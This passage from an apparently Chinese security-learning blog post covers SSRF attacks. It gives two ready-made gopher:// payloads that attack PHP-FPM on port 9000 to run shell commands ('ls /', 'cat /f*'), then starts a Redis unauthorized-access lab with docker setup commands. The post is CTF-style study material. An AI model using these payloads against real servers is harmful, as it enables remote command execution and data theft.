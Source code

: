 ls /的payload

```cobol
gopher://127.0.0.1:9000/_%2501%2501%2500%2501%2500%2508%2500%2500%2500%2501%2500%2500%2500%2500%2500%2500%2501%2504%2500%2501%2500%25F6%2506%2500%250F%2510SERVER_SOFTWAREgo%2520/%2520fcgiclient%2520%250B%2509REMOTE_ADDR127.0.0.1%250F%2508SERVER_PROTOCOLHTTP/1.1%250E%2502CONTENT_LENGTH56%250E%2504REQUEST_METHODPOST%2509KPHP_VALUEallow_url_include%2520%253D%2520On%250Adisable_functions%2520%253D%2520%250Aauto_prepend_file%2520%253D%2520php%253A//input%250F%2509SCRIPT_FILENAMEindex.php%250D%2501DOCUMENT_ROOT/%2500%2500%2500%2500%2500%2500%2501%2504%2500%2501%2500%2500%2500%2500%2501%2505%2500%2501%25008%2504%2500%253C%253Fphp%2520system%2528%2527ls%2520/%2527%2529%253Bdie%2528%2527-----Made-by-SpyD3r-----%250A%2527%2529%253B%253F%253E%2500%2500%2500%2500
```

cat /f*

```cobol
gopher://127.0.0.1:9000/_%2501%2501%2500%2501%2500%2508%2500%2500%2500%2501%2500%2500%2500%2500%2500%2500%2501%2504%2500%2501%2500%25F6%2506%2500%250F%2510SERVER_SOFTWAREgo%2520/%2520fcgiclient%2520%250B%2509REMOTE_ADDR127.0.0.1%250F%2508SERVER_PROTOCOLHTTP/1.1%250E%2502CONTENT_LENGTH59%250E%2504REQUEST_METHODPOST%2509KPHP_VALUEallow_url_include%2520%253D%2520On%250Adisable_functions%2520%253D%2520%250Aauto_prepend_file%2520%253D%2520php%253A//input%250F%2509SCRIPT_FILENAMEindex.php%250D%2501DOCUMENT_ROOT/%2500%2500%2500%2500%2500%2500%2501%2504%2500%2501%2500%2500%2500%2500%2501%2505%2500%2501%2500%253B%2504%2500%253C%253Fphp%2520system%2528%2527cat%2520/f%252A%2527%2529%253Bdie%2528%2527-----Made-by-SpyD3r-----%250A%2527%2529%253B%253F%253E%2500%2500%2500%2500
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/2cdec376c7ca74b879623ff7d0e9b9a9.png" alt="" style="max-height:203px; box-sizing:content-box;" />


## Redis协议

 [SSRF漏洞之Redis利用篇【三】 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/web/303275.html) 

跟着这个学习一下 Redis协议的内容

首先通过docker安装 存在未授权漏洞的 Redis 容器

### 环境搭建

```cobol
# 搜索镜像
docker search ju5ton1y
# 拉取镜像
docker pull ju5ton1y/redis
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/510a9ab901d7d84e68df088c355bad87.png" alt="" style="max-height:440px; box-sizing:content-box;" />


```cobol
# 运行Redis
docker run -p 6788:6379 --name redis_test -d ju5ton1y/redis
 
 
其中 -p 6788:6379 代表  宿主机:容器的 端口映射
 
--name redis_test 命名容器 
 
-d ju5ton1y/redis 后台的容器id
```
